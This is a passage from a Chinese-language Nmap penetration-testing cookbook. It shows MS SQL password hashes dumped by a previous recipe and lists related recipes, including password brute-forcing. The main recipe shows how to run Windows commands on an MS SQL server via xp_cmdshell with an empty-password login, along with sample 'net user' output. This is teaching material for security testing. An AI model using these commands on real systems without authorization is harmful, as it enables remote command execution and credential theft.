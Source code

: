 ```
|     ##MS_PolicyEventProcessingLogin##:0x0200BB8897EC23F14FC9FB8BFB0A96B2F541ED81F1103FD0FECB94D269BE15889377B69AEE4916307F3701C4A61F0DFD9946209258A4519FE16D9204580068D2011F8FBA7AD4 
|_    ##MS_PolicyTsqlExecutionLogin##:0x0200FEAF95E21A02AE55D76F68067DB02DB59AE84FAD97EBA7461CB103361598D3683688F83019E931442EC3FB6342050EFE6ACE4E9568F69D4FD4557C2C443243E240E66E10 

```

## 另请参阅

+   *检索 MS SQL 服务器信息*教程

+   *暴力破解 MS SQL 密码*教程

+   *在 MS SQL 服务器上通过命令 shell 运行命令*教程

+   *在 MS SQL 服务器上查找具有空密码的 sysadmin 帐户*教程

# 在 MS SQL 服务器上通过命令 shell 运行命令

MS SQL 服务器有一个名为`xp_cmdshell`的存储过程。此功能允许程序员通过 MS SQL 服务器执行命令。当启用此选项时，Nmap 可以帮助我们执行自定义 shell 命令。

此教程显示了如何通过 Nmap 在 MS SQL 服务器上运行 Windows 命令。

## 如何做...

打开您的终端并输入以下 Nmap 命令：

```
$ nmap --script-args 'mssql.username="<user>",mssql.password=""' --script ms-sql-xp-cmdshell -p1433 <target>

```

结果将包含在脚本输出部分中：

```
PORT     STATE SERVICE  VERSION 
1433/tcp open  ms-sql-s Microsoft SQL Server 2011 11.00.1750.00 
| ms-sql-xp-cmdshell: 
|   [192.168.1.102:1433] 
|     Command: net user 
|       output 
|       ====== 
| 
|       User accounts for \\ 
| 
|       ------------------------------------------------------------------------------- 
|       Administrator          cldrn             Guest 
|       postgres 
|       The command completed with one or more errors. 
| 
|_ 

```
